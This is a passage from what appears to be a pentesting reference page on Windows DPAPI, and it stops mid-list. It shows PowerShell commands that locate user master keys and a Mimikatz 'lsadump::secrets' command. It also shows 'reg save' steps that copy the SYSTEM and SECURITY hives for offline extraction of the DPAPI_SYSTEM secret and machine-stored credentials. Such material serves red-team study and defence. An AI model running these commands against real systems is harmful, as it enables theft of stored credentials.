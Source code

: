 Find master keys:

```bash
Get-ChildItem C:\Users\USER\AppData\Roaming\Microsoft\Protect\
Get-ChildItem C:\Users\USER\AppData\Local\Microsoft\Protect
Get-ChildItem -Hidden C:\Users\USER\AppData\Roaming\Microsoft\Protect\
Get-ChildItem -Hidden C:\Users\USER\AppData\Local\Microsoft\Protect\
Get-ChildItem -Hidden C:\Users\USER\AppData\Roaming\Microsoft\Protect\{SID}
Get-ChildItem -Hidden C:\Users\USER\AppData\Local\Microsoft\Protect\{SID}
```

This is what a bunch of Master Keys of a user will looks like:

![](<../../images/image (1121).png>)

### Machine/System key generation

This is key used for the machine to encrypt data. It's based on the **DPAPI_SYSTEM LSA secret**, which is a special key that only the SYSTEM user can access. This key is used to encrypt data that needs to be accessible by the system itself, such as machine-level credentials or system-wide secrets.

Note that these keys **don't have a domain backup** so they are only accesisble locally:

- **Mimikatz** can access it dumping LSA secrets using the command: `mimikatz lsadump::secrets`
- The secret is stored inside the registry, so an administrator could **modify the DACL permissions to access it**. The registry path is: `HKEY_LOCAL_MACHINE\SECURITY\Policy\Secrets\DPAPI_SYSTEM`
- Offline extraction from registry hives is also possible. For example, as an administrator on the target, save the hives and exfiltrate them:

```cmd
reg save HKLM\SYSTEM C:\Windows\Temp\system.hiv
reg save HKLM\SECURITY C:\Windows\Temp\security.hiv
```

Then on your analysis box, recover the DPAPI_SYSTEM LSA secret from the hives and use it to decrypt machine-scope blobs (scheduled task passwords, service credentials, Wi‑Fi profiles, etc.):

```text
mimikatz lsadump::secrets /system:C:\path\system.hiv /security:C:\path\security.hiv
# Look for the DPAPI_SYSTEM secret in the output
```

### Protected Data by DPAPI

Among the personal data protected by DPAPI are:
